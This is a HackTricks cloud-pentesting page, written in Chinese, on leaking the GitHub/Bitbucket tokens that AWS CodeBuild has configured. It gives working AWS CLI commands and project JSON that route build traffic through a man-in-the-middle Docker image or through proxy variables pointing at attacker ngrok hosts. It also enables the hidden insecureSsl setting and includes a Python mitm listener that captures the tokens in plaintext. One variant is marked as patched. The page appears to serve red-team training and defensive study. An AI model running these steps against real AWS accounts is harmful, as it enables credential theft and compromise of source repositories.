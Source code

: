 # AWS Codebuild - Token Leakage

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 恢复 Github/Bitbucket 配置的令牌

首先，检查是否配置了任何源凭据，以便您可以泄露：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果你发现例如 Github 的认证已在账户中设置，你可以通过让 Codebuild **使用特定的 Docker 镜像** 来运行项目的构建，从而 **提取** 该 **访问** （**GH token 或 OAuth token**）。

为此，你可以 **创建一个新的 Codebuild 项目** 或更改现有项目的 **环境** 以设置 **Docker 镜像**。

你可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，将设置 **环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许你拦截在 **`https_proxy`** 和 **`http_proxy`** 中指示的主机的大部分流量，并信任在 **`SSL_CERT_FILE`** 中指示的 SSL 证书。

1. **创建并上传你自己的 Docker MitM 镜像**
* 按照仓库的说明设置你的代理 IP 地址并设置你的 SSL 证书，然后 **构建 Docker 镜像**。
* **不要设置 `http_proxy`** 以避免拦截对元数据端点的请求。
* 你可以使用 **`ngrok`**，例如 `ngrok tcp 4444` 来将代理设置为你的主机。
* 一旦你构建了 Docker 镜像，**将其上传到公共仓库**（Dockerhub, ECR...）。
2. **设置环境**
* 创建一个 **新的 Codebuild 项目** 或 **修改** 现有项目的环境。
* 设置项目使用 **之前生成的 Docker 镜像**。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **在你的主机上设置 MitM 代理**

* 如 **Github 仓库** 中所示，你可以使用类似的内容：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用的 **mitmproxy 版本是 9.0.1**，据报道在版本 10 中这可能无法工作。
{% endhint %}

4. **运行构建并捕获凭证**

*   您可以在 **Authorization** 头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 以类似的方式完成

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### 通过 insecureSSL

**Codebuild** 项目有一个设置叫做 **`insecureSsl`**，这个设置在网页上是隐藏的，你只能通过 API 来更改它。\
启用此选项，允许 Codebuild 连接到存储库 **而不检查** 平台提供的证书。

* 首先，你需要使用类似以下的命令来枚举当前配置：
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* 然后，使用收集到的信息，您可以将项目设置 **`insecureSsl`** 更新为 **`True`**。以下是我更新项目的示例，请注意最后的 **`insecureSsl=True`**（这是您需要从收集的配置中更改的唯一内容）。
* 此外，还要添加环境变量 **http\_proxy** 和 **https\_proxy**，指向您的 tcp ngrok，如下所示： 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* 然后，在代理变量指向的端口（http\_proxy 和 https\_proxy）运行来自 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 的基本示例
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**凭证**将以 **明文**（base64）发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~通过 HTTP 协议~~

{% hint style="success" %}
**这个漏洞在 2023 年 2 月 20 日那一周的某个时候被 AWS 修复了（我想是星期五）。所以攻击者不能再利用它了 :)**
{% endhint %}

具有 **提升权限的攻击者在 CodeBuild 中可能会泄露配置的 Github/Bitbucket 令牌**，或者如果权限是通过 OAuth 配置的，则 **用于访问代码的临时 OAuth 令牌**。

* 攻击者可以将环境变量 **http\_proxy** 和 **https\_proxy** 添加到 CodeBuild 项目，指向他的机器（例如 `http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 然后，将 github 仓库的 URL 更改为使用 HTTP 而不是 HTTPS，例如：`http://github.com/carlospolop-forks/TestActions`
* 然后，在代理变量（http\_proxy 和 https\_proxy）指向的端口上运行来自 [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) 的基本示例。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **构建项目**，**凭证**将以 **明文**（base64）发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在攻击者将能够从他的机器上使用令牌，列出它拥有的所有权限，并且比直接使用 CodeBuild 服务更容易（滥用）。
{% endhint %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** 上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
